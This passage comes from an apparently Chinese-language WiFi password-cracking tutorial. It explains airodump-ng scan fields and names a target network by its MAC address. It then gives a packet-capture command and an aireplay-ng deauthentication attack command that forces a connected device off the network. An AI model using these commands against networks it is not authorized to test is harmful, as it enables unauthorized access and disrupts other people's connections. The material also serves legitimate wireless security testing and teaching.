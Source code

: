 > - ESSID，即周围wifi的名字；
> - BSSID，即wifi对应的mac地址；
> - ENC，加密方式。可以看到基本都是WPA2的，很少有WPA和WEP。因为这两个的安全性弱于WPA2次之；
> - CH，即工作频道。

- 要破解的是`1603`.它的mac地址是**8C:53:C3:84:6D:D6**;
- 下半部分罗列出连接到这个wifi内的设备的mac地址，注意观察第一条，08:ED:B9:89:FB:B1，这个是我的电脑，它此时连接到FC:D7:33:3F:BC:F8这个路由器的wifi网络内，这个wifi的工作频道是10，需要记住。

#### 3.抓包阶段
```bash
sudo airodump-ng --ivs -c 10 --bssid 8C:53:C3:84:6D:D6 -w test wlan0mon
```
</b>![](./img/arng.png)

#### 4.攻击阶段

sudo aireplay-ng -0 1 -c A4:83:E7:3C:20:75 –a 8C:53:C3:84:6D:D6 wlan0mon

</b>![](./img/aireply.png)